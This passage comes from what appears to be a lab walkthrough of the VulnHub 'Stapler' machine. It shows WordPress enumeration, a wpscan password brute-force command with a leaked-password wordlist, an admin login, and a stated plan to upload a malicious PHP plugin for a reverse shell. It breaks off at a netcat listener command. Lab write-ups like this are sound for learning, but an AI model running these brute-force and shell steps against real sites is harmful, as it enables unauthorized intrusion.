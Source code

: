 Then I ran `gobuster`:


The site takes a while to load, so I decided to check the sources:

![wordpress](https://amirr0r.github.io/assets/img/vulnhub/linux/stapler/12380-wordpress.png)

We can notice that's a **WordPress** website version `4.2.1`.

#### Wordpress

##### `gobuster`

![blogblog gobuster](https://amirr0r.github.io/assets/img/vulnhub/linux/stapler/12380-blogblog-gobuster.png)

##### `wpscan`

Wordpress Security Scanner alias `wpscan` can help us attack this website.

- Enumerating users:

```bash
$ wpscan --url https://192.168.1.106:12380/blogblog/ --disable-tls-checks --enumerate u
```

![Wordpress user](https://amirr0r.github.io/assets/img/vulnhub/linux/stapler/12380-users.png)

- Bruteforce passwords:

```bash
$ wpscan --url https://192.168.1.106:12380/blogblog/ --disable-tls-checks --password-attack wp-login -U wp-users.txt -P /usr/share/wordlists/seclists/Passwords/darkweb2017-top10000.txt -t 100
```

![user creds](https://amirr0r.github.io/assets/img/vulnhub/linux/stapler/12380-users-creds.png)

Let's try to lo in:

![wp-login](https://amirr0r.github.io/assets/img/vulnhub/linux/stapler/12380-wp-login.png)

We're in:

![harry dashboard](https://amirr0r.github.io/assets/img/vulnhub/linux/stapler/harry.png)

Our goal to gain access to target's shell. In order to do that, we can upload a malicious php file via wordpress.

Among the users for whom we managed to get their passwords, only `john` has a different dashboard and seems to be the admin: 

![john wp-admin](https://amirr0r.github.io/assets/img/vulnhub/linux/stapler/wp-admin.png)


### Reverse shell (uploading malicious plugin)

First and foremost, let's run a listener:

```bash
$ nc -lnvp 1234
```

